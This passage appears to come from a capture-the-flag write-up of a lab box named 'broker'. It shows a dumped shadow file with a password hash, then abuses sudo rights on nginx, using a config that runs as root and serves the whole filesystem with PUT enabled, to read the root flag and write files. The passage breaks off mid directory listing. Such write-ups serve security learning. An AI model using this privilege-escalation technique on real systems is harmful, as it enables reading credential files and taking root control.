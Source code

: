     syslog:*:19405:0:99999:7:::
    uuidd:*:19405:0:99999:7:::
    tcpdump:*:19405:0:99999:7:::
    tss:*:19405:0:99999:7:::
    landscape:*:19405:0:99999:7:::
    fwupd-refresh:*:19405:0:99999:7:::
    usbmux:*:19474:0:99999:7:::
    lxd:!:19474::::::
    activemq:$y$j9T$5eMce1NhiF0t9/ZVwn39P1$pCfvgXtARGXPYDdn2AVdkCnXDf7YO7He/x666g6qLM5:19666:0:99999:7:::
    _laurel:!:19667::::::


This is enough to get the flag and solve the box:



    activemq@broker:~$ curl localhost:1337/root/root.txt
    8a207d68************************



#### File Write

nginx can also handle PUT requests which write files. I'll update the
config to include enabling PUTs:



    user root;
    events {
        worker_connections 1024;
    }
    http {
        server {
            listen 1338;
            root /;
            autoindex on;
            dav_methods PUT;
        }
    }



I'll also need to change the port. I don't have a way to kill the
running server on 1337, and if I try to run with the same port, nginx
will fail to listen and abort.

Now I run this:



    activemq@broker:/dev/shm$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf 



And a new server is listening on 1338, returning a file listing for `/`:


    activemq@broker:/dev/shm$ curl localhost:1338
    .md>
    <head><title>Index of /</title></head>
    <body>
    <h1>Index of /</h1><hr><pre><a href="../">../</a>
    <a href="bin/">bin/</a>                                               06-Nov-2023 01:10                   -
    <a href="boot/">boot/</a>                                              06-Nov-2023 01:38                   -
    <a href="dev/">dev/</a>                                               08-Nov-2023 17:53                   -
    <a href="etc/">etc/</a>                                               07-Nov-2023 06:53                   -
    <a href="home/">home/</a>                                              06-Nov-2023 01:18                   -